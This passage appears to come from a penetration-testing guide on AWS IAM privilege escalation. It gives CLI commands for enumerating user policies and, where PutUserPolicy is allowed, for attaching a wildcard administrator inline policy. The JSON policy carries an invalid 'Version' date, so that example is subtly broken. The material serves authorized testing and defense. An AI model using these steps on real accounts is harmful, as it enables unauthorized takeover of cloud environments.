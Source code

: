 ```
aws iam list-attached-user-policies --user-name example_name -- profile example_profile
```

3. Retrieving information about a specific policy

```
aws iam get-policy --policy-arn policy_arn
```

If there are more than one version of the policy, we can also list them

```
aws iam list-policy-versions --policy-arn policy_arn
```

Now we can finally retrieve the contents of the policy

```
aws iam get-policy-version --policy-arn example_arn --version-id id_example
```

*It's important to use the command above to check the information about the default policy*

4. Escalation

If we have the PutUserPolicy is enabled, we can add an inline administrator policy to our user. 

Administrator policy example

```json
{
	"Version": "2021-10-17",
	"Statement" : [
		{
			"Effect":"Allow",
			"Action": [
				"*"
			],
			"Resource":[
				"*"
			]
		}
	]
}
```

### Attaching this policy into our user

```
aws iam put-user-policy --user-name example_username --policy-name example_name --policy-document file://AdminPolicy.json
```

### Listing inline policies of our user

```
aws iam list-user-policies --user-name example_name
```
